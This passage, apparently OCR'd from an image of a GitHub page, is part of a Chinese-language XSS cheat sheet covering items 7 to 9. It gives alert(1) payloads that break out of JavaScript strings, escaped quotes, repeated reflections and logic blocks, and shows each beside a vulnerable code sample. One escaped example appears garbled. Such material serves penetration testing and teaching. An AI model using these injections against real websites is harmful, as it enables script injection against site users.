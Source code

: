### `XSS 速查表（高级）`

7. 当输入位于脚本块内、字符串定界值内时使用。

```html
'-alert(1)-'
'/alert(1)//
```

* 示例源代码

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* 如果输入Payload为 '-alert(1)-'，则如下所示

```html
<script>
    var sitekey = ''-alert(1)-'';
</script>
```

> 引号被反斜杠转义，所以我们需要绕过它们

* 输入Payload后

```html
<script>
    var sitekey = '\\'alert(1)//';
</script>
```

8. 当同一行JS代码中有多个反射时使用。

```html
/alert(1)//\
/alert(1)}//\
```

* 示例源代码

```html
<script>
    var a = 'REFLECTED_HERE'; var b = 'REFLECTED_HERE';
</script>
```

* 输入Payload后

```html
<script>
    var a = '/alert(1)//\'; var b = '/alert(1)//\';
</script>
```

9. 当输入在字符串定界值内且在单个逻辑块内（如函数或条件语句中，如if、else等）时使用。

```html
'}alert(1);{'
\'}alert(1);{// 
```
